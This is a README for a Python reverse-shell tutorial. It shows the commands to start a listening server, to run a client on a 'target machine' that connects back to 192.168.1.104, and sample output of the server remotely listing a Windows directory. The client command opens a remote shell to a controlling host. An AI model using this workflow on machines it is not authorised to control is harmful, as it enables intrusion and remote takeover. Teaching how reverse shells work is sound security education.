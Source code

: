 # [How to Create a Reverse Shell in Python](https://www.thepythoncode.com/article/create-reverse-shell-python)
You don't need to install anything.
- To run the server, simply write:
    ```
    python server.py
    ```
    **Output:**
    ```
    Listening as 0.0.0.0:5003 ...
    ```
- Running the client (target machine) that connects to 192.168.1.104 (server's IP Address) :
    ```
    python client.py 192.168.1.104
    ```
    **Output:**
    ```
    Server: Hello and Welcome
    ```
- The server will get notified once a client is connected, executing `dir` command on Windows remotely (in `server.py`):
    ```
    192.168.1.103:58428 Connected!
    Enter the command you wanna execute:dir
    Volume in drive E is DATA
    Volume Serial Number is 644B-A12C

    Directory of E:\test

    09/24/2019  02:15 PM    <DIR>          .
    09/24/2019  02:15 PM    <DIR>          ..
                0 File(s)              0 bytes
                2 Dir(s)  89,655,123,968 bytes free
    Enter the command you wanna execute:exit
    ```
